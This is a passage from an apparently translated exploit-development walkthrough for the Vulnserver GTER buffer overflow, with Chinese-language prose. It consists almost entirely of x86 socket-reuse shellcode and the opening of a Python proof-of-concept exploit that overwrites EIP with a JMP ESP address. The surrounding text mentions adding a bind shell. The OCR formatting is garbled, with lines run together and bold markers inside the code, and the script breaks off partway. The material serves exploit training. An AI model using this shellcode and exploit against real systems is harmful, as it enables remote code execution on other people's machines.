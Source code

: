 ```
**### 2nd <JMP.&WS2_32.recv> (Shellcode Cont'd)**\x54                  # PUSH ESP
\x58                  # POP EAX
\x66\x05\x88\x01      # ADD AX, 0x188 
\xFF\x30              # PUSH [EAX]
\x5E                  # POP ESI
\x83\xEC\x74          # SUB ESP, 0x74
\x33\xDB              # XOR EBX, EBX
\x53                  # PUSH EBX
\x80\xC7\x02          # ADD BH, 0x2
\x53                  # PUSH EBX\x54                  # PUSH ESP
\x5B                  # POP EBX
\x83\xC3\x78          # ADD EBX, 0x78
\x53                  # PUSH EBX
\x56                  # PUSH ESI
\xBB\x11\x2C\x25\x40  # MOV EBX, 0x40252C11
\xC1\xEB\x08          # SHR EBX, 8 
\xFF\xD3              # CALL EBX
**\x33\xC9              # XOR ECX, ECX
\x51                  # PUSH ECX
\x50                  # PUSH EAX
\x53                  # PUSH EBX
\x56                  # PUSH ESI
\xFF\xD3              # CALL EBX**
```

# 第三阶段外壳代码(绑定外壳)

我们都设置了第二阶段的套接字重用外壳代码。让我们用 msfvenom 创建一个绑定 shell，并用我们的 PoC 脚本更新它。

## 最终利用

```
**###** [**Final_gter.py**](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GTER%20-%20EIP%20Overwrite/final_gter.py) **(Source by bigb0ss)**import socket
import struct
import os
import sys
import timevuln_command = "GTER "
crash = 160
offset = 151
eip = struct.pack("<I", 0x62501205)     **# JMP ESP****# 1st Stage Shellcode (Short JMP)**
jmp_back = "\x54\x59\x83\xE9\x64\xFF\xE1"**# 2nd Stage Shellcode (Socket Reuse Exploit)**
socket_reuse = ""
socket_reuse += "\x54"                  **# PUSH ESP**
socket_reuse += "\x58"                  **# POP EAX**
socket_reuse += "\x66\x05\x88\x01"      **# ADD AX, 0x188** 
socket_reuse += "\xFF\x30"              **# PUSH [EAX]**
socket_reuse += "\x5E"                  **# POP ESI**
socket_reuse += "\x83\xEC\x74"          **# SUB ESP, 0x74**
socket_reuse += "\x33\xDB"              **# XOR EBX, EBX**
socket_reuse += "\x53"                  **# PUSH EBX**
socket_reuse += "\x80\xC7\x02"          **# ADD BH, 0x2**
socket_reuse += "\x53"                  **# PUSH EBX**
socket_reuse += "\x54"                  **# PUSH ESP**
socket_reuse += "\x5B"                  **# POP EBX**
socket_reuse += "\x83\xC3\x78"          **# ADD EBX, 0x78**
socket_reuse += "\x53"                  **# PUSH EBX**
socket_reuse += "\x56"                  **# PUSH ESI**
socket_reuse += "\xBB\x11\x2C\x25\x40"  **# MOV EBX, 0x40252C11**
socket_reuse += "\xC1\xEB\x08"          **# SHR EBX, 8** 
socket_reuse += "\xFF\xD3"              **# CALL EBX**
socket_reuse += "\x33\xC9"             ** # XOR ECX, ECX**
```